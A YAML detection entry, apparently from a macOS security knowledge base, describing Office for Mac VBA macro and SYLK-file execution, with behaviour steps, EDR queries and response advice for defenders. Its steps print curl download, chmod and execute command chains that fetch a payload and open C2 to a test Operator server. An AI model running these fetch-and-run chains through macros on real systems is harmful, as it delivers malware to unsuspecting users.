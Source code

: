 ```yaml
---
Name: Office for Mac
Description: These techniques are far more common on the Windows side, but Office for Mac also has the ability to execute VBA on macOS systems. These techniques are far less common on macOS, likely because they stand out from an EDR perspective and Microsoft has implemented sandboxing in recent versions of Office for Mac (2016 and higher). However, it is still important to test these scenarios on all Office for Mac versions, especially since recent techniques such as SYLK file extesion abuse share some of the same detection logic as VBA execution vectors.
Author: Adam Nadrowski
Created: 2022-05-18
Full_Path:
  - Path: /Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel
  - Path: /Applications/Microsoft PowerPoint.app/Contents/MacOS/Microsoft PowerPoint
  - Path: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word
  - Path: /bin/bash
Resources:
  - Link: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format
Commands:

  - Name: Macro VBA for Excel, PowerPoint and Word
    Description: This query detects any instance of Excel, PowerPoint or Word spawning processes. This is typically done using the MacScript function of VBA. The MacScript function is slowly being deprecated for the more popular AppleScript function.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name Microsoft Excel|PowerPoint|Word executes multiple bash processes for each command in the macro. Each future bash process is unique.
      - Step: The first command, bash executes curl to download a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data (replace Excel with PowerPoint or Word). The command line is <pre><code>sh -c curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload</pre></code>
      - Step: The next command, bash executes chmod to make the payload executable. The command line is <pre><code>sh -c chmod +x operator-payload</pre></code>
      - Step: The next command, bash executes the payload to establish C2 comms with Prelude Operator. The command line is <pre><code>sh -c ./operator-payload -name macro-vba-excel & </pre></code>
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload (replace Excel with PowerPoint or Word) makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with any of the VBA based techniques within the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: (parent_process_image_path = "/Applications/Microsoft Excel.app/*" OR parent_process_image_path = "/Applications/Microsoft PowerPoint.app/*" OR parent_process_image_path = "/Applications/Microsoft Word.app/*") and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.

  - Name: Excel macro execution via SYLK file extension
    Description: This query detects any instance of Excel launching the bash process. The SYLK file extension is an ancient extension that can be abused to execute macros. Thankfully, the OS behaviors mimick that of regular macros being executed, so the same query from the "Macro VBA for Excel, PowerPoint and Word" TTP will detect this.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a file with the slk extension, launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name "Microsoft Excel" executes one bash process with the cmdline <pre><code>sh -c /usr/bin/curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload && chmod +x operator-payload && ./operator-payload -name macro-sylk-excel & </pre></code>
      - Step: The first command, curl, downloads a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data/operator-payload.
      - Step: The next command, chmod, makes the payload executable.
      - Step: The next command, operator-payload, is the malicious payload that executes to establish C2 comms with Prelude Operator.
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Macro SYLK Excel" procedure from the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: parent_process_image_path = "/Applications/Microsoft Excel.app/*" and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
---
```

